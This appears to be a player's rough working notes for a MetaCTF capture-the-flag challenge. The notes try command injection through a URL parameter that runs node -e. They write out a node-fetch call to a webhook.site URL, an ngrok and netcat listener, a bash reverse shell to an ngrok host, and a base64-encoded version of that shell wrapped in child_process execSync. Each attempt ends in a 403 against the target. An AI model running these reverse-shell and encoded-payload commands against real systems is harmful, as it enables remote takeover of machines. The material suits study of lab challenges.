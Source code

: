 ## testing
```
https://compete.metactf.com/302/?auth=true&uid=1856312&tok=410cde24de52a2169334fbb11dd6edb3
&cal=node -e 'eval("require")("node-fetch")("https://webhook.site/41ec69bd-3f25-459a-94e7-b7a87fec9a97");
no get request to webhook site can be seen
may be outboud is not allowed
givs 403
the function looks like is being called
```
- this is not giving  403
```
https://compete.metactf.com/302/?auth=true&uid=1856312&tok=410cde24de52a2169334fbb11dd6edb3&cal=node -e '1'
```
- ngrok tcp 1234
- ![image](https://github.com/m0wn1ka/ctf/assets/127676379/0a865692-0156-4b56-a212-84b0310529ac)
- nc -lvp 1234
- ![image](https://github.com/m0wn1ka/ctf/assets/127676379/a41b3d73-3064-4e9d-b8a8-be94d956abd5)

```
bash -i >& /dev/tcp/0.tcp.in.ngrok.io/17838 0>&1
```
### testing in local
```
C:\tmp\test> node -e "require('child_process').execSync('ls', {stdio:[0,1,2]});"
file1

C:\tmp\test>
```
### testing in url
```
https://compete.metactf.com/302/?auth=true&uid=1856312&tok=410cde24de52a2169334fbb11dd6edb3
&cal=node -e "require('child_process').execSync('ls', {stdio:[0,1,2]});"
--this is giving a 403
```

### try1
```
node -e "require('child_process').execSync('bash -c \"bash -i >& /dev/tcp/0.tcp.in.ngrok.io/17838 0>&1\"', {stdio:[0,1,2]});"
no connection back but 403
```
### try2
```
may be base64 encoding

C:\tmp> echo 'bash -i >& /dev/tcp/0.tcp.in.ngrok.io/17838 0>&1'|base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8wLnRjcC5pbi5uZ3Jvay5pby8xNzgzOCAwPiYxCg==

echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8wLnRjcC5pbi5uZ3Jvay5pby8xNzgzOCAwPiYxCg==' |base64 -d|bash


node -e "require('child_process').execSync('bash -c \"echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8wLnRjcC5pbi5uZ3Jvay5pby8xNzgzOCAwPiYxCg==' |base64 -d|bash\"', {stdio:[0,1,2]});"
make some escape charcter addtion
node -e "require('child_process').execSync(\"bash -c 'echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8wLnRjcC5pbi5uZ3Jvay5pby8xNzgzOCAwPiYxCg==' | base64 -d | bash'\", {stdio:[0,1,2]});"

still not working in url ,but working locally

```
